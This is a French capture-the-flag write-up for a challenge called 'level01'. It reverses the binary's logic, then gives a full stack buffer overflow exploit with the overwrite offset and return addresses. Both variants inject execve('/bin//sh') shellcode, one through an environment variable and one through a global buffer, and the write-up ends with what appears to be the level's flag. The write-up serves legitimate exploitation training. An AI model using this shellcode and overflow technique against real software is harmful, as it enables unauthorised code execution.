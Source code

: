 # Level01

## **Déroulement du programme :**

- une variable globale est déclarée (disons `g_user_name`)

#### verify_user_name()
- `return` d'un `strncmp` de 7 entre `g_user_name` et **"dat_wil"**

#### verify_user_pass(buffer)
- `return` d'un `strncmp` de 5 entre `buffer` et **"admin"**

#### main()
- un buffer de 16 octets est déclaré (disons `buffer`)
- un **integer** est déclaré (disons `ret`)
- `fgets` de 256 dans `g_user_name`
- `ret` prend la valeur de retour de `verify_user_name`
- si `ret` vaut 0
    - `fgets` de 100 dans `buffer`
    - `ret` prend la valeur du retour de `verify_user_pass`
- 1 est renvoyé dans tous les cas

___
## **Réflexion :**

On va chercher à surcharger la sauvegarde de l'**EIP** présente dans la **stack frame** du `main` en faisant un **buffer overflow** depuis `buffer`.

Pour ce faire, il faudra rentrer dans la condition où il est vérifié que `ret` vaut 0, notre premier argument sera donc **"dat_wil"**.

Pour le second argument, on trouve un offset de 80 à l'aide de [wiremask](https://wiremask.eu/tools/buffer-overflow-pattern-generator/?).

___
## **Solution :**

On crée une **variable d'environnement** :

```bash
export SHELL_CODE=$(python -c 'print "\x90"*100+"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80"')
```

Dans **gdb**, on trouve son adresse à l'aide de :

```
x/20s *((char **) environ)
```

Et enfin :

```bash
cat <(python -c 'print("dat_wil")' ; python -c 'print("A"*80 + "\x04\xdf\xff\xff")') - | ./level01
```
___
## Variante :

On écrit un **shell code** à la suite de **"dat_wil"** (le premier `fgets` étant de 256 on a largement la place de l'y mettre) :

```python
python -c 'print("dat_wil" +"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80")'
```

Dans le deuxième argument, on met à la suite de l'offset l'adresse de `g_user_name` + la taille de **"dat_wil"** pour tomber directement sur le **shell code** :

```python
python -c 'print("A"*80 + "\x47\xa0\x04\x08")'
```

On obtient au final :

```bash
$> cat <(python -c 'print("dat_wil" +"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80")' ; python -c 'print("A"*80 + "\x47\xa0\x04\x08")') - | ./level01
```

>> PwBLgNa8p8MTKW57S7zxVAQCxnCpV8JqTTs9XEBv